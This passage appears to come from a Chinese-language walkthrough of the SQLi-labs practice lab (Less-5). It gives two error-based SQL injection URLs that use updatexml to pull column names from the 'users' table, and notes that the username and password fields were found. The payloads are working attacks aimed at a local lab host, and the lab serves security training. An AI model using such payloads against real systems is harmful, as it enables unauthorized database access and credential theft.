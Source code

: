 ```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='users'  limit 1,1 ),0x7e),1) --+
```



![image-20230826211923107](./SQLi_labs.assets/image-20230826211923107.png)

得到username字段

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='users'  limit 2,1 ),0x7e),1) --+
```

![image-20230826211954359](./SQLi_labs.assets/image-20230826211954359.png)

得到password字段
